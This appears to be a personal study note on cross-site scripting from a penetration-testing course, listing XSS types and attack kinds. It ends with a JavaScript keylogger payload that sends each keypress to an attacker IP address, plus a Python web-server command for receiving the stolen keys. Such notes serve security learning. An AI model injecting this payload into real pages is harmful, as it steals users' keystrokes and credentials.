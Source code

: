 ```yaml
---
tags:
- xss
---
```


# XSS

Cross-Site-Scripting (XSS) is a vulnerability based on the trust of user to visiting site.
Better JS injection or HTTML injection.
Because it is not necessary cross site and not necessary scripting
As attackers, we are injecting code that will be executed in the victim's browser.
Vaious form of protection against XSS voulnarabilities:
[[2023042015443939 httponly]]
[[2023042015452020 CSP]]
## XSS Types
- [[2023042615423737 Reflected Server XSS]]
- [[2023042618302828 Stored Server XSS]]
- [[2023042618315454 Reflected Client XSS]]
- [[2023042618331111 Stored Client XSS]]

## XSS attacks
- [[2023042721252929 Stealing cookie XSS]]
- [[2023042722275252 Stealing local storage XSS]]
- [[2023042721181010 XSS external JS payload]]
- [[2023042801143030 Keylogging XSS]]
- [[2023042801401414 Stealing Saved Password XSS]]
- [[2023072521342323 XSS Send request result to an attacker machine]]
- [[2023042900595252 Phishing Users]]
- [[202304301516077 Inject external script in url]]
## XSS Js scripts examples
Watch what keys user press:
```js
function logKey(e){
	console.log(e.key);
    fetch("http://192.168.49.136/k?key=" + e.key);
}

document.addEventListener('keydown', logKey);
```

```bash
python3 -m http.server 80
```

## References
1. web200.Cross-Site Scripting Introduction and Discovery


